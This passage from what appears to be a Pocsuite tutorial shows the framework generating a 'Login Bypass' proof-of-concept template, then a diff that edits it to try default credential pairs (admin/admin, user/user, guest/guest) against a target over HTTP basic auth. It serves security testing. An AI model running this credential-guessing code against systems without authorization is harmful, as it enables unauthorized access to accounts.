 
→pocsuite --new
...
0    Arbitrary File Read
1    Code Execution
2    Command Execution
3    Denial Of service
4    Information Disclosure
5    Login Bypass
6    Path Traversal
7    SQL Injection
8    SSRF
9    XSS

Vulnerability type, choose from above or provide (eg, 3) []: 5
...
```  
  
  
修改模版：  
  
```
-    def _options(self):
-        o = OrderedDict()
-        o['param'] = OptString('', description='The param')
-        return o
-
def _exploit(self, param=''):
-        if not self._check(dork=''):
+        if not self._check(dork='Error: username or password error,please input again.'):
             return False

-        headers = {'Content-Type': 'application/x-www-form-urlencoded'}
-        payload = 'a=b'
-        res = requests.post(self.url, headers=headers, data=payload)
-        logger.debug(res.text)
-        return res.text
+        creds = {'admin': 'admin', 'user': 'user', 'guest': 'guest'}
+        valid_creds = {}
+        for u, p in creds.items():
+            res = requests.get(self.url, auth=(u, p))
+            if res.status_code != 401:
+                valid_creds[u] = p
+        return valid_creds

     def _verify(self):
         result = {}
@@ -53,17 +48,11 @@ class DemoPOC(POCBase):
         if res:
             result['VerifyInfo'] = {}
             result['VerifyInfo']['URL'] = self.url
-            result['VerifyInfo'][param] = res
+            result['VerifyInfo']['Info'] = res
         return self.parse_output(result)
